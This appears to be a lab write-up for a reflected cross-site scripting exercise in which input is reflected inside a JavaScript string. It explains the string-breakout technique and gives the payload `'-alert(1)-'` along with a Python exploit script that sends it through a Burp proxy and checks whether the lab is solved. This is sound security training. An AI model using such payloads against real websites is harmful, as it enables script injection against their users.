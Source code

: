```yaml
---
title: 'XSS Lab 9'
description: 'Reflected XSS that breaks out of a JavaScript string when angle brackets are HTML-encoded'
---
```



## Reflected XSS into a JavaScript string with angle brackets HTML encoded

<div style="text-align: justify;">
  This lab demonstrates a reflected cross-site scripting (XSS) vulnerability where user input is reflected inside a JavaScript string and angle brackets are HTML-encoded. The goal is to break out of the JavaScript string context and execute a JavaScript `alert()` call. Because the reflection is inside a string and angle brackets are encoded, the payload must close the string, inject the `alert(1)` call, then ensure the page's JavaScript remains syntactically valid.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The search parameter is reflected inside a JavaScript string on the page.
- Angle brackets (`<` and `>`) are HTML encoded, so a classic `<script>` injection won't work.
- The technique is to break out of the JavaScript string literal, inject the payload (e.g. `alert(1)`), then re-enter or balance the JavaScript to avoid syntax errors.
- Example payload that works in this lab: `'-alert(1)-'`
- After sending the payload via an intercepted search request, copy the URL and open it in a browser to trigger the alert.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = "'-alert(1)-'"

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```